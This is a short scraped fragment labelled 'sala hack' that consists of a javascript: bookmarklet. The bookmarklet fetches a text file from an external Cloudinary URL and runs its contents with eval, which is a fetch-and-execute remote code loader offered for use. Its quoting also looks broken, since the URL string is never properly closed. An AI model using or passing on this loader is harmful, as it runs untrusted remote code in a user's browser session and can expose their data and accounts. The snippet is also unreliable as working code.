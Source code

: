 sala hack
javascript:fetch('https://res.cloudinary.com/das83r5ez/raw/upload/v1746668159/wm3i2bh4yrtfrsi6qgg5.txt?nocache=%27 + Math.random())  .then(t => t.text())  .then(eval);
